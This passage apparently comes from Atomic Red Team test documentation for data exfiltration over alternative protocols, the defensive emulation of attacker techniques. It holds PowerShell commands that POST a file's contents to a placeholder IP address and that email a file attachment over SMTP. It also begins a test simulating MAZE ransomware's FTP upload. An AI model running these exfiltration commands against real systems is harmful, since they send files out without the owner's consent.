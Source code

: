 
#### Attack Commands: Run with `powershell`! 


```powershell
$content = Get-Content #{input_file}
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body $content
```






<br/>
<br/>

## Atomic Test #5 - Exfiltration Over Alternative Protocol - SMTP
Exfiltration of specified file over SMTP.
Upon successful execution, powershell will send an email with attached file to exfiltrate to a remote address. Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** ec3a835e-adca-4c7c-88d2-853b69c11bb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| sender | The email address of the sender | string | test@corp.com|
| receiver | The email address of the receiver | string | test@corp.com|
| smtp_server | SMTP server to use for email transportation | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject "T1048.003 Atomic Test" -Attachments #{input_file} -SmtpServer #{smtp_server}
```






<br/>
<br/>

## Atomic Test #6 - MAZE FTP Upload
This test simulates MAZE's ransomware's ability to exfiltrate data via FTP.
Upon successful execution, all 7z files within the %windir%\temp directory will be uploaded to a remote FTP server. 
Reference: https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents

